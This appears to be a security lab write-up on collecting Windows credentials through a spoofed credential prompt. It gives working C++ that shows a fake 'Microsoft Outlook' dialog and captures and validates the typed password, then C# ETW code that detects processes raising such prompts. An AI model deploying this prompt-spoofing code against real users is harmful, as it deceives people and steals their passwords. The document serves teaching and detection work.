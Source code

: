 # Credentials Collection via CredUIPromptForCredentials

## Purpose

The purpose of this lab is to twofold:

1. write some code that invokes Windows credential prompt, that would allow malware or an attacker to collect targeted user's credentials once they are on the compromised machine
2. write some ETW code that detects processes invoking credential prompts

## Stealing User Credentials

It is possible to collect user credentials with the below code:

{% code title="credentialsprompt.cpp" %}
```cpp
#include <iostream>
#include <Windows.h>
#include <wincred.h>

#pragma comment(lib, "Credui.lib")

int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nShowCmd)
{
    CREDUI_INFO ci = { sizeof(ci) };
    std::wstring promptCaption = L"Microsoft Outlook";
    std::wstring promptMessage = L"Connecting to spotless@offense.local";
    ci.pszCaptionText = (PCWSTR)promptCaption.c_str();
    ci.pszMessageText = (PCWSTR)promptMessage.c_str();

    WCHAR username[255] = {};
    WCHAR password[255] = {};
    DWORD result = 0;

    result = CredUIPromptForCredentialsW(&ci, L".", NULL, 5, username, 255, password, 255, FALSE, CREDUI_FLAGS_GENERIC_CREDENTIALS);
    if (result == ERROR_SUCCESS)
    {
        HANDLE newToken = NULL;
        BOOL credentialsValid = FALSE;

        credentialsValid = LogonUserW(username, NULL, password, LOGON32_LOGON_INTERACTIVE, LOGON32_PROVIDER_DEFAULT, &newToken);
        if (credentialsValid)
        {
            // valid credentials provided
        }
        else
        {
            // invalid credentials provided
        }
    }
    else if (result == ERROR_CANCELLED)
    {
        // no credentials provided
    }

    return 0;
}
```
{% endcode %}

{% hint style="warning" %}
Although in this lab I am using `CredUIPromptForCredentials` for invoking credentials prompt, you should be using [`CredUIPromptForWindowsCredentials`](https://docs.microsoft.com/windows/desktop/api/wincred/nf-wincred-creduipromptforwindowscredentialsa)
{% endhint %}

If we compile and run the above code, we get a credential prompt, that captures user's credentials in plain text, which we could then save to a file or send out over the internet:

![](../../.gitbook/assets/image%20%28574%29.png)

{% hint style="info" %}
The above credential prompt can also be invoked with PowerShell cmdlet `Get-Credential`.
{% endhint %}

## Detecting Credential Prompts

As a defender, one may want to know what processes are popping these credential prompts, so that malicious ones could be detected - i.e if you are notified that suddenly some unusual process showed a prompt, it may mean that the process is infected and the machine is compromised.

Detection of programs showing credential prompts is possible with [Event Tracing for Windows \(EWT\)](../../miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101.md#terminology) - Microsoft-Windows-CredUI provider to the rescue:

![](../../.gitbook/assets/image%20%28592%29.png)

Looking at the provider Microsoft-Windows-CredUI in ETWExplorer, we can see that it can provide consumers with events for both `CredUIPromptForCredentials` and `CredUIPromptForWindowsCredentials` invokations:

![](../../.gitbook/assets/image%20%28599%29.png)

We can create an ETW tracing session and subscribe to events from Microsoft-Windows-CredUI provider with C\# like so:

{% code title="credentialsprompt-detection.cs" %}
```csharp
# based on https://github.com/zodiacon/DotNextSP2019/blob/master/SimpleConsumer/Program.cs
using Microsoft.Diagnostics.Tracing.Session;
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace SimpleConsumer
{
    static class Programa
    {
        static void Main(string[] args)
        {
            using (var session = new TraceEventSession("spotless-credential-prompt"))
            {
                Console.CancelKeyPress += delegate {
                    session.Source.StopProcessing();
                    session.Dispose();
                };

                session.EnableProvider("Microsoft-Windows-CredUI", Microsoft.Diagnostics.Tracing.TraceEventLevel.Always);
                var parser = session.Source.Dynamic;
                parser.All += e => {
                    if (e.OpcodeName == "Start")
                    {
                        Console.WriteLine($"{e.TimeStamp} > Credential Prompt detected in {Process.GetProcessById(e.ProcessID).ProcessName}.exe (PID={e.ProcessID})");
                    }
                };
                session.Source.Process();
            }
        }
    }
}
```
{% endcode %}

## Demo

Below shows RogueCredentialsPrompt.exe and Powershell.exe invoking Windows credential prompts and our simple consumer program detecting that activity:

![](../../.gitbook/assets/creduipromptforcredentials-detection.gif)

## References

{% embed url="https://ired.team/miscellaneous-reversing-forensics/etw-event-tracing-for-windows-101" caption="" %}

{% embed url="https://github.com/zodiacon/DotNextSP2019/" caption="" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/api/wincred/nf-wincred-creduipromptforcredentialsa" caption="" %}

